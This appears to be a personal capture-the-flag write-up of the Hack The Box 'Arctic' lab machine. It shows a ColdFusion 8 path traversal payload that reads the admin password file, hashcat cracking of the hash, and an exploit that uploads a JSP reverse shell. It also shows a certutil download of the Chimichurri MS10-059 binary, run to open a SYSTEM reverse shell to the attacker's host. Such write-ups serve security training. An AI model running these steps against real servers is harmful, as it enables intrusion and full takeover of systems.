


---
tags:
  - ms10-059
  - coldfusion
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Arctic
- Reference : https://0xdf.gitlab.io/2020/05/19/htb-arctic.html
- Solved : 2025.1.22. (Wed) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**: Discovered open ports 135 (MSRPC), 8500 (HTTP), and 49154 (MSRPC).
    - **Web Enumeration**:
        - Found a directory listing page on port 8500 exposing `CFIDE`.
        - Identified the web service as ColdFusion 8 based on the `/CFIDE/administrator` login page.
    
2. **Service Exploitation**
    - **Path Traversal Vulnerability**:
        - Used a path traversal exploit to access `password.properties` and retrieved the ColdFusion admin password hash.
        - Cracked the SHA-1 hash using `hashcat` and the `rockyou.txt` wordlist to recover the password (`happyday`).
    - **Admin Access**: Logged into the ColdFusion Administrator panel and leveraged the ability to upload malicious files.
    - **Remote Code Execution (RCE)**:
        - Uploaded a JSP reverse shell through ColdFusion Administrator, gaining a shell as `arctic\tolis`.
        
3. **Privilege Escalation**
    - **System Enumeration**:
        - Discovered no hotfixes applied, making the system highly vulnerable.
    - **Exploit MS10-059**:
        - Identified and used the Chimichurri exploit to elevate privileges to `NT AUTHORITY\SYSTEM`.
        - Achieved a reverse shell as the SYSTEM user.

### Key Techniques:

- **Vulnerability Exploitation**: Path traversal to obtain credentials and exploit known ColdFusion vulnerabilities.
- **Hash Cracking**: Used `hashcat` to crack SHA-1 password hashes.
- **Privilege Escalation**: Leveraged an unpatched kernel vulnerability (MS10-059) for SYSTEM access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.11
Performing quick port scan on 10.10.10.11...
Found open ports: 135,8500,49154
Performing detailed scan on 10.10.10.11...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 11:23 MST
Nmap scan report for 10.10.10.11
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.25 seconds
```

- 2 RPC ports, one probably http service(8500).

### http(8500)



It returns directory-listing page which includes `CFIDE`.
I googled it, and figured out that it has to do with "ColdFusion".

According to [Wikipedia](https://en.wikipedia.org/wiki/Adobe_ColdFusion), it's a server platform developed by Adobe which is using CFML(Coldfusion Markup Langauge).

I explored all the directories and files in it, and found out that `/CFIDE/administrator` loads a login page.



It exposes its version : `ColdFusion 8`


# Shell as `tolis`

Let me search exploits using `searchsploit`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ searchsploit coldfusion 8                              
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                                                       | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                                                                    | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                                                       | multiple/remote/16985.rb
Adobe ColdFusion 11 - LDAP Java Object Deserialization Remode Code Execution (RCE)                                        | windows/remote/50781.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution                               | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                                                                             | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting                                                         | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                                                        | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)                                                                       | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentication Bypass                                                                 | windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasploit)                                                    | multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                                                           | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                                                 | multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site Scripting                              | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query String Cross-Site Scripting           | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-Site Scripting                    | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Site Scripting                     | cfm/webapps/33168.txt
Adobe ColdFusion versions 2018_15 (and earlier) and 2021_5 and earlier - Arbitrary File Read                              | multiple/webapps/51875.py
Allaire ColdFusion Server 4.0 - Remote File Display / Deletion / Upload / Execution                                       | multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EXE' Decrypt Pages                                                             | windows/local/19220.c
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                                         | cfm/webapps/16788.rb
ColdFusion 9-10 - Credential Disclosure                                                                                   | multiple/webapps/25305.py
ColdFusion MX - Missing Template Cross-Site Scripting                                                                     | cfm/remote/21548.txt
ColdFusion MX - Remote Development Service                                                                                | windows/remote/50.pl
ColdFusion Scripts Red_Reservations - Database Disclosure                                                                 | asp/webapps/7440.txt
ColdFusion Server 2.0/3.x/4.x - Administrator Login Password Denial of Service                                            | multiple/dos/19996.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure                                                 | multiple/remote/22867.pl
Macromedia ColdFusion MX 6.0 - SQL Error Message Cross-Site Scripting                                                     | cfm/webapps/23256.txt
Macromedia ColdFusion MX 6.1 - Template Handling Privilege Escalation                                                     | multiple/remote/24654.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

### Path Traversal to retrieve credential

Let's use Path Traversal vulnerability : `14641.py`

The exploit includes the following URL as an example.

```bash
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

Let's run the code.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python2 14641.py 10.10.10.11 8500 ../../../../../../../lib/password.properties
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```

The password looks like a hash not a plaintext.

```swift
┌──(kali㉿kali)-[~/htb]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Using `hash-identifier`, I figured out that the hash algorithm is `SHA-1`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 100 hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 byteDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 100 (SHA1)
Hash.Target......: 2f635f6d20e3fde0c53075a84b68fb07dcec9b03
Time.Started.....: Tue Jan 21 12:17:14 2025 (0 secs)
Time.Estimated...: Tue Jan 21 12:17:14 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   181.1 kH/s (0.06ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5120/14344385 (0.04%)
Rejected.........: 0/5120 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Liverpool -> babygrl
Hardware.Mon.#1..: Util: 54%

Started: Tue Jan 21 12:16:55 2025
Stopped: Tue Jan 21 12:17:15 2025
```

I cracked the hash with `hashcat`, and the cracked password is `happyday`
I used this password on the login page, and it worked!

With this, I can spawn a reverse shell.
This approach is further explained in [0xdf blog](https://0xdf.gitlab.io/2020/05/19/htb-arctic.html).

### RCE exploiting `ColdFusion 8`

Given the version, I found out that there's an RCE exploit : `50057.py`
I copied the code, and modified IP variables.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat 50057.py              

<SNIP>

if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.10'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
    filename = uuid.uuid4().hex

<SNIP>
```

Then, let's run the exploit.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 50057.py 

Generating a payload...
Payload size: 1497 bytes
Saved as: b1f9ace5db1b46329ca89ed2ed507675.jsp

Priting request...
Content-type: multipart/form-data; boundary=c550bed65885400ca0ddcf3c0a78d5fc
Content-length: 1698

<SNIP>

Printing some information for debugging...
lhost: 10.10.14.10
lport: 4444
rhost: 10.10.10.11
rport: 8500
payload: b1f9ace5db1b46329ca89ed2ed507675.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 52070


Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

I got `tolis`'s shell!


# Shell as `SYSTEM`

### Windows Exploit Suggester

I found out that there's no hot-fix applied on the target which doesn't make sense because the OS is quite outdated.

```bash
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          22/1/2025, 4:34:58 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 4.922 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.038 MB
Virtual Memory: In Use:    1.247 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11

```

I used `windows-exploit-suggester` to find possible exploits.

```bash
┌──(kali㉿kali)-[~/htb/Windows-Exploit-Suggester]
└─$ python2 windows-exploit-suggester.py --database 2025-01-21-mssb.xls --systeminfo systeminfo
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

There are several exploits suggested.
Among all these, I googled and found out that `MS10-059` is way better than the other exploits of usage.

### MS10-059

Let's download and upload the compiled binary.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wget https://github.com/egre55/windows-kernel-exploits/raw/refs/heads/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe
--2025-01-21 20:20:36--  https://github.com/egre55/windows-kernel-exploits/raw/refs/heads/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe
Resolving github.com (github.com)... 20.233.83.145
Connecting to github.com (github.com)|20.233.83.145|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/egre55/windows-kernel-exploits/refs/heads/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe [following]
--2025-01-21 20:20:36--  https://raw.githubusercontent.com/egre55/windows-kernel-exploits/refs/heads/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 784384 (766K) [application/octet-stream]
Saving to: ‘Chimichurri.exe’

Chimichurri.exe    100%[================>] 766.00K  --.-KB/s    in 0.1s    

2025-01-21 20:20:37 (5.78 MB/s) - ‘Chimichurri.exe’ saved [784384/784384]


┌──(kali㉿kali)-[~/htb]
└─$ file Chimichurri.exe 
Chimichurri.exe: PE32 executable (console) Intel 80386, for MS Windows, 8 sections


┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.11 - - [21/Jan/2025 20:21:22] "GET /Chimichurri.exe HTTP/1.1" 200 -
10.10.10.11 - - [21/Jan/2025 20:21:23] "GET /Chimichurri.exe HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
```

Then, let's run it with opening reverse shell.

```bash
C:\Users\tolis\Documents>certutil.exe -urlcache -split -f http://10.10.14.10:8000/Chimichurri.exe
certutil.exe -urlcache -split -f http://10.10.14.10:8000/Chimichurri.exe
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Documents>.\Chimichurri.exe 10.10.14.10 9001
.\Chimichurri.exe 10.10.14.10 9001
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

Listener on Kali

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 54183
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Documents>whoami
whoami
nt authority\system
```

I got `SYSTEM`'s shell!